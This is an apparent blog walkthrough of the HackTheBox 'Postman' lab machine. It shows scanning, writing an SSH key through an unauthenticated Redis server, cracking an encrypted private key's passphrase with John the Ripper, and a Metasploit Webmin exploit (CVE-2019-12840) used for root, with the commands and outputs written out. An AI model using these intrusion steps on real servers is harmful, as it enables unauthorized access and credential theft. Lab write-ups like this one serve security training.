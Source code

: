 ```yaml
---
title: HackTheBox - Postman
date: 2021-01-01 01:25:15 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, redis, ssh2john, John The ripper, miniserv, webmin, CVE-2019-12840, metasploit, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/postman/Postman.png
---
```


## Foothold

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Postman-full-port-scan.txt 10.10.10.160
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

### Apache/2.4.29 (port 80)

![Apache port 80](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/postman/80.png)

![dirb port 80](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/postman/80-dirb.png)

### Miniserv (port 10000)

First we got an error:

![10000 miniserv error](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/postman/10000-miniserv.png)

After adding `10.10.10.160 postman` to `/etc/hosts` we are redirected to:

![webmin](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/postman/10000-webmin.png)

Thanks to [nmap scan](#nmap-scan) we know we're dealing with version **1.910**:

![searchsploit webmin](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/postman/webmin-searchsploit.png)

Unfortunately the metasploit exploit requires credentials.

### Redis 4.0.9 (port 6379)

According to [hacktricks](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis#ssh), redis home directory is often `/var/lib/redis/`. Let's try to have a shell:

```bash
$ ssh-keygen -t rsa -f postman_rsa
$ redis-cli -h $TARGET 
10.10.10.160:6379> config set dir /var/lib/redis/.ssh/
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379> 
$ cat foo.txt | redis-cli -h $TARGET -x set crackit
OK
# Don't know why but I had to do it twice
$ redis-cli -h $TARGET 
10.10.10.160:6379> config set dir /var/lib/redis/.ssh/
OK
10.10.10.160:6379> config set dbfilename "authorized_keys"
OK
10.10.10.160:6379> save
OK
10.10.10.160:6379> 
```

![shell](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/postman/shell.png)

## User (redis)

If we go to the `/home` directory, we see there is a user called Matt.

I tried to list the files that he owns:

![find files owned by Matt](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/postman/find_Matt.png)

The first file `/opt/id_rsa.bak` seems interesting.

We can see it;s an encrypted RSA key:

```bash
$ redis@Postman:/home/Matt$ cat /opt/id_rsa.bak
-----BEGIN RSA PRIVATE KEY-----                     
Proc-Type: 4,ENCRYPTED
#...
```

We can transfer it yo our machine usinh `scp`:

```bash
$ scp -i postman_rsa redis@$TARGET:/opt/id_rsa.bak . 
```

Then we can convert using `ssh2john` and run **JohnTheRipper**:

```bash
$ /usr/share/john/ssh2john.py id_rsa.bak > matt_rsa.john
$ john matt_rsa.john --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 12 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa.bak)
1g 0:00:00:04 DONE (2021-01-01 01:03) 0.2500g/s 3585Kp/s 3585Kc/s 3585KC/s  0125457423 ..*7¡Vamos!
Session completed
```

`computer2008` is the passphrase!

## User (Matt)

```bash
$ ssh -i id_rsa.bak Matt@$TARGET
Enter passphrase for key 'id_rsa.bak': 
Connection closed by 10.10.10.160 port 22
```

This did'nt work so I tried:

```bash
redis@Postman:~$ su Matt
Password: # computer2008
Matt@Postman:/var/lib/redis$ cd
Matt@Postman:~$ cat user.txt
99108a54ba44c99889199e3e53fdacfe
```

We can log in to **webmin** using Matt's credentials:

![webmin](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/postman/webmin.png)

Therefore we can run the metasploit exploit &darr; 

![msf-webmin](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/postman/msf-webmin.png)
![msf](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/postman/msf.png)

## Root

![webmin](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/postman/root_flag.png)
___

## Useful links

- [6379 - Pentesting Redis](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)
- [CVE-2019-12840](https://cvedetails.com/cve/CVE-2019-12840/)
- [Webmin 1910 Package Updates Remote Command Execution](https://www.pentest.com.tr/exploits/Webmin-1910-Package-Updates-Remote-Command-Execution.html)